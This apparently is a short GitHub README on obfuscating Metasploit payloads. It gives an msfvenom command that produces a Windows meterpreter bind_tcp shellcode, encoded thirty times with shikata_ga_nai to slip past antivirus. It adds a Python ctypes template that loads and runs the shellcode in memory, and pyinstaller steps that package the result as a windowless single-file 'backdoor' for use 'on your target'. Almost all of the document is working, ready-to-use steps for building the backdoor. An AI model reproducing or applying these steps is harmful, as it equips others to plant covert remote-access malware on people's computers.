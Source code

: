 # :tophat: Metasploit Payload Obfuscation Techniques:

<p align="center">
  <img width="600" height="300" src="https://user-images.githubusercontent.com/72598486/204439872-6f102e86-2172-4c3e-a0dd-e82bcca70711.png">
</p>

Utilize Metasploit's ```msfvenom``` to create your desired payload:

```bash
$ msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai '\x00' -i 30 RHOST=10.0.0.68 LPORT=9050 -f c | tr -d '"' | tr -d '\n' | more
```

Grab the string produced for creating your payload and plug it into the template below:

```python
from ctypes import *

shellcode = '<your shellcode, ex: \xda\xdc\xd9\>'
memorywithshell = create_string_buffer(shellcode, len(shellcode))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```

Compile the backdoor with ```pyinstaller```

```bash
$ python configure.py
$ python makespec.py --onefile --noconsole shell_template.py
$ python build.py shell_template\shell_template.spec
```

This will produce your obfuscated payload which you can use on your target (legally)
